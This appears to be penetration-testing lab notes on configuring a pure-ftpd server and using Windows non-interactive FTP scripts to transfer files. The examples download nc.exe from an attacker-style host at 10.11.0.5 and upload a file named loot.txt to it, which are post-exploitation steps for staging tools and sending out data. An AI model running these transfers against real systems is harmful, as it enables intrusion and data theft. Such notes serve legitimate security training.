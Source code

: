 # Configuring an FTP server

update apt cache and install pure-ftpd
```bash
apt-get update && apt-get install pure-ftpd
```

The following setup script can be used to quikly configure an ftp server
```bash
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd offsec -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```

mark script executable and launch
```bash
chmod +x setup-ftp
./setup-ftp
```

# Non-Interactive FTP
Windows FTP can be called non-interactivly using `-s` option
```
ftp -v -n -s:ftp.txt
```

# Examples
## GET a file from remote
```
echo open 10.11.0.5 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt
```

## PUT a file from remote
```
echo open 10.11.0.5 21> ftp.txt
echo USER offsec>> ftp.txt
echo ftp >> ftp.txt
echo bin >> ftp.txt
echo put loot.txt >> ftp.txt
echo bye >> ftp.txt

ftp -v -n -s:ftp.txt

```

